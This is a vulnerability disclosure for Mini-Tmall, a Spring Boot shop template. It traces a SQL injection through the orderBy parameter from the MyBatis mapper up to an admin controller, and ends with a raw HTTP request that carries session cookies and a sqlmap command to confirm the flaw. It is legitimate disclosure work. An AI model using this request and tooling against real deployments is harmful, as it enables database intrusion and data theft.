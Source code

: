 
# Description of the vulnerability
Mini-Tmall is a mini Tmall mall based on Spring Boot, which can be quickly deployed and run, and is suitable as a template for completion.
# System situation
## version
2025/02/11 latest
## Project address
https://gitee.com/project_team/Tmall_demo

# analyse
1.The global search found that ${orderUtil. orderBy} is used as a connection parameter in mybatis/mapper/ProductMapper.xml:88.  So, if we can control the parameters, it's going to cause SQL injection.
![image](https://github.com/user-attachments/assets/581457c9-24ee-4fa5-9173-f67fd9544d8b)
2.Find the select() method declaration in com/xq/tmall/dao/ProductMapper.java:16.  You can control orderUtil. orderBy by passing an argument to orderUtil.  Let's go ahead and find where the select() method is called.
![image](https://github.com/user-attachments/assets/c95fcd22-88cb-4572-8fc8-aacfb5a02680)
3.You can see the call to ProductMapper.select() found in com/xq/tmall/service/impl/ProductServiceImpl.java:38. Let's go up and see where getList() is called.
![image](https://github.com/user-attachments/assets/962e6733-9107-4dfd-b14a-188c0f4fb2fb)
4.It is obvious that we went directly to the controller layer and found that getList() was called in com/xq/tmall/controller/admin/ProductController.java:405.  So, as long as we can pass the corresponding parameters over HTTP, we can trigger the SQL injection vulnerability.
![image](https://github.com/user-attachments/assets/98e90853-9626-4c8a-b2a3-7354bf08442e)
5.The orderby parameter is obtained from line 372 through the http request.  In the next 399 lines give the OrderUtil class.  You can go further and look at the class's constructor.
![image](https://github.com/user-attachments/assets/bef826b9-f372-4907-91b8-c3d59b483470)
![image](https://github.com/user-attachments/assets/afe33563-9e9c-408a-8642-eb17909ab381)



# verify
sqlmap test results

r.txt:
```
GET /tmall/admin/product/1/10?product_name=&category_id=&product_sale_price=&product_price=&product_isEnabled_array=&orderBy=&isDesc=true HTTP/1.1
Host: 127.0.0.1:8887
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
sec-ch-ua: "Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8887/tmall/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-GB;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: username=admin; username=admin; JSESSIONID=48E23263092CD1BD89C0C150458330CF; XXL_JOB_LOGIN_IDENTITY=7b226964223a312c22757365726e616d65223a2261646d696e222c2270617373776f7264223a223864646366663361383066343138396361316339643464393032633363393039222c22726f6c65223a312c227065726d697373696f6e223a6e756c6c7d; remember-me=YWRtaW46MTc0MDYyNTU3NDc3MDpmMWI5MWRhMWVmMjU5MzgwMGY0ZDk4NzIwZjNhNjIxMQ
Connection: close
```
sqlmap -r r.txt
![image](https://github.com/user-attachments/assets/9e08967c-9ac7-464e-b41c-6d43e678cc09)

